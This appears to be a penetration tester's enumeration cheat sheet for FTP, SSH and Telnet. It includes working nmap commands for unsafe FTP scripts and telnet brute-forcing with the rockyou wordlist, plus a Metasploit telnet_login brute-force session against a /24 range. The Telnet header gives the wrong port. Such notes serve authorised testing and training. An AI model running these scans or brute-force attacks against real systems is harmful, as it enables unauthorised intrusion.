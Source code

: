 # EXTRA:

# Enumerating

This is the essential part of penetration. Find out what is available and how you could punch through it with minimum ease.

DO NOT SKIP STEPS.

DO NOT PASS GO.

SEARCH ***ALL*** THE VERSIONS WITH `searchsploit`
(or google -> `site:exploit-db.com APP VERSION`)

# FTP - 21

- Anonymous login
- Enumerate the hell out of the machine!
  - OS version
  - Other software you can find on the machine (Prog Files, yum.log, /bin)
  - password files
  - DLLs for `msfpescan` / BOF targets
- Do you have UPLOAD potential?
  - Can you trigger execution of uploads?
  - Swap binaries?
- Vulnerabilities in version / RCE / #WINNING?-D


####--NEW--
nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 10.11.1.8


# SSH - 22

Unless you get a MOTD or a broken sshd version, you are SOOL and this is likely just a secondary access point once you break something else.

# TELNET - 25
```
nmap -p 23 --script telnet-brute --script-args

userdb=/usr/share/metasploit-framework/data/wordlists/unix_users,passdb=/usr/share/wordlists/rockyou.txt,telnet-brute.timeout=20s 10.11.1.22
```
## metasploit

### 1.  telnet bruteforce
```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(telnet_login) > set THREADS 254
THREADS => 254
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(telnet_login) > set VERBOSE false
VERBOSE => false
```